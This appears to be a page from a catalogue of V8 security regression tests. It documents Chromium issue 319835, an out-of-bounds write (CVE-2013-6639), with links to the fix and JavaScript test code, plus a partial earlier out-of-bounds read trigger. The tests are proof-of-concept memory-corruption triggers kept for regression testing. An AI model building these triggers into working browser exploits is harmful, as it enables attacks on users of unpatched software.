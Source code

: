 ```javascript
var a = new Int8Array(0x2000001);
read(a, 0);
read(a, 0);
%OptimizeFunctionOnNextCall(read);

for (var i = 0; i > -1000000; --i) {
  read(a, i);
}  
```  
  
[[Diff]](https://chromium.googlesource.com/v8/v8/+/c9b41c6^!)  
[src/elements-kind.cc](https://cs.chromium.org/chromium/src/v8/src/elements-kind.cc?cl=c9b41c6)  
[src/elements-kind.h](https://cs.chromium.org/chromium/src/v8/src/elements-kind.h?cl=c9b41c6)  
[src/hydrogen-dehoist.cc](https://cs.chromium.org/chromium/src/v8/src/hydrogen-dehoist.cc?cl=c9b41c6)  
[src/hydrogen-instructions.h](https://cs.chromium.org/chromium/src/v8/src/hydrogen-instructions.h?cl=c9b41c6)  
[src/lithium.cc](https://cs.chromium.org/chromium/src/v8/src/lithium.cc?cl=c9b41c6)  
[src/lithium.h](https://cs.chromium.org/chromium/src/v8/src/lithium.h?cl=c9b41c6)  
...  
  

---   

## **regress-crbug-319835.js (chromium issue)**  
   
**[Issue: OOB write in V8 (only 64bit)](https://crbug.com/319835)**  
**[Commit: Limit size of dehoistable array indices](https://chromium.googlesource.com/v8/v8/+/c9b41c6)**  
  
Date(Commit): Fri Nov 15 17:24:10 2013  
Components/Type: None/Bug-Security  
Labels: ["Release-1-M31", "Stability-ThreadSanitizer", "Merge-Merged", "Security_Impact-Stable", "Arch-x86_64", "CVE-2013-6639", "M-31", "Security_Severity-High", "allpublic", "CVE_description-submitted", "Hotlist-Torque"]  
Code Review: [https://codereview.chromium.org/74113002](https://codereview.chromium.org/74113002)  
Regress: [mjsunit/regress/regress-crbug-319835.js](https://chromium.googlesource.com/v8/v8/+/master/test/mjsunit/regress/regress-crbug-319835.js)  
```javascript
try {} catch(e) {}  // No need to optimize the top level.

var size = 0x20000;
var a = new Float64Array(size);
var training = new Float64Array(10);
function store(a, index) {
  var offset = 0x20000000;
  for (var i = 0; i < 1; i++) {
    a[index + offset] = 0xcc;
  }
}

store(training, -0x20000000);
store(training, -0x20000000 + 1);
store(training, -0x20000000);
store(training, -0x20000000 + 1);
%OptimizeFunctionOnNextCall(store);

for (var i = -0x20000000; i < -0x20000000 + size; i++) {
  store(a, i);
}  
```  
  
